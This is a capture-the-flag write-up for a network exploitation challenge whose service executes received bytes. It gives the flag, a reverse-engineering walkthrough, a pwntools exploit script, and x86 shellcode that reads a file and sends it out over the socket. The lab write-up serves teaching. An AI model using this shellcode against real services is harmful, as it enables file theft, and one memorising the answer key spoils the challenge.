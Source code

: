# Challenge Name
Sp3ak the Lingo

# Point Value and Assessed Difficulty
100

# Category
Network Exploitation

# Challenge Prompt/Question
This is as easy as you can ask for, we're just going to execute what you send, but you gotta talk the talk.  The flag is in the same directory in a file named "key" (no quotes).

* [binary](link to binary)

# Hints

* __Hint 1:__ *(file descriptor order)* File descriptors are generally opened in numerical order, and there are generally two socket file descriptors on the server side: one for socket() and one for accept().

# Key
Assembly_is_the_language_of_this_land


# Walkthrough
This challenge runs whatever code it receives on the listening port, and the key is in a file named "key" in the same directory.

If you had to RE the binary to figure out all of that, you could drop it into objdump or IDA, and you'd notice right away it has friendly symbols.  The bindfork() function does what it says, so to find the port to connect to, look for the call to bind() and work back.  You'll often see a call to htons() to convert the port from host order to network order, and that's the case here. Looking at the arguments to htons(), you can see it's the port is passed in as a parameter to the bindfork function.  Going back to the call to bindfork() in main, you can see the value 0xb0f (2831 decimal) being passed in, and that's the port the server listens on.

After that, we can look for calls to send() and recv() (in this case the recv() is implemented as a call to read()) to see what the program tells us or does with our input.  Following what is done with the buffer into which the program reads our input, you'll see a "call eax" instruction, where eax is set to the address of the buffer.  This means we send data to the program and it will be executed by the program as machine code, so we just need to write code to read the key file and send it back to us. 

You can either handcode assembly to do this or use utilities to help with this, but the basic idea is use linux system calls to open the file, read it, and send it back over the socket.  I'm not going to cover all the concepts needed, but go through the mechanics so you can research concepts as needed.

The standard CTF way is to take existing shellcode and modify it to do what you want.  Take the shellcode at http://wiremask.eu/shellcode-file-reader-linux-x86/ for example.  All you need to do is realize that you want to read "key" instead of "/etc/passwd" and write to a different file descriptor.[1](#endnote1)

The file descriptor you want to write to is 4, and we get to that conclusion because the first three file descriptors are STDIN, STDOUT, and STDERR respectively, followed by the socket() and accept() file desciptors since the target program doesn't open any other file descriptors before our socket.  If you didn't know or couldn't count on it being a specific file descriptor, you could always write a loop that writes the file contents to every fd greater than 3.

The top google hits for associated search terms go over the mechanics for assembling shellcode; I followed the steps outlined at http://www.vividmachines.com/shellcode/shellcode.html and it worked on the shellcode I adapted, but it wasn't as easy as the other way I solved this problem.

I wrote a solution using pwntools, their pwnlib.shellcraft.i386.linux.readfile is basically a one-line answer to generating assembly that will do what you want.  You should check out their work regardless; they've done a great job of making it so you can go to their source and see what they've done.[2](#endnote2)


## Concept Development
This is essentially an assembly programming challenge, under the constraints of your code being inside another program.  This is the basis for all challenges like this, and so this challenge shows that the competitor understands key fundamentals.

## Solution
----

# Proof of Exploit/Solution

```python
from pwn import *
import pwnlib.shellcraft.i386 as shellcraft
from socket import *
from sys import stdout

# assembled from file_reader.asm
assembled_shellcode = "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6b\x65\x79\x00\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x04\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"

def get_shellcode():
	sock_fd = 4 # starting at 0: stdin, stdout, stderr, socket
	# copying in pwnlib.shellcraft.i386.linux.readfile because my local version didn't have it
	# https://github.com/Gallopsled/pwntools/blob/60307ed1c7/pwnlib/shellcraft/templates/i386/linux/readfile.asm
	# otherwise this next bit would just be:
	# sc_str = shellcraft.linux.readfile("key", sock_fd)
	# yes, really.  just one line.
	sc_str = ('' 
	    + shellcraft.mov('edi', sock_fd)  # save the fd to write to in a non-volatile reg
	    + shellcraft.pushstr("key") # write the filename to the stack
	    + shellcraft.syscall('SYS_open', 'esp', 'O_RDONLY') # open the file path we just wrote
	    + shellcraft.mov('ebp', 'eax') # save the fd in a non-volatile reg
	    + shellcraft.syscall('SYS_fstat', 'eax', 'esp') # stat the file to get filesize
	    + '''/* Get file size */
	      add esp, 20
	      mov esi, [esp]\n''' # ugh, forced assembly. pulls size out of the fstat struct 
	    + shellcraft.syscall('SYS_sendfile', 'edi', 'ebp', 0, 'esi') # write the file to sock
        + shellcraft.syscall('SYS_exit', 0) # exit cleanly
	)
	sc = asm(sc_str)
	#sc = assembled_shellcode
	return sc

def main(ip, port):
    s = socket()
    s.connect((ip, port))
    sc = get_shellcode()
    #sc = assembled_shellcode
    s.send(sc)
    while True:
        c = s.recv(1)
        stdout.write(c)
        if c == "\n" or c == '\x00':
            break

if __name__ == "__main__":
    host = "localhost"
    port = 0xb0f
    main(host, port)
```

```asm
; file_reader.asm, modified from http://wiremask.eu/shellcode-file-reader-linux-x86/
global _start
 
section .text
 
_start:
  xor ecx, ecx
  mul ecx
 
open:
  mov al, 0x05
  push ecx
  push 0x0079656b
  mov ebx, esp
  int 0x80
 
read:
  xchg eax, ebx
  xchg eax, ecx
  mov al, 0x03
  mov dx, 0x0FFF
  inc edx
  int 0x80
 
write:
  xchg eax, edx
  mov bl, 0x04
  shr eax, 0x0A
  int 0x80
 
exit:
  xchg eax, ebx
  int 0x80
```

----

# Endnotes

<a name="endnote1">[1]</a>: Shellcode used in my reference [here](http://wiremask.eu/shellcode-file-reader-linux-x86/)

<a name="endnote2">[2]</a>: Pwnlib file reader python for generating shellcode [link](https://github.com/Gallopsled/pwntools/blob/60307ed1c7/pwnlib/shellcraft/templates/i386/linux/readfile.asm)

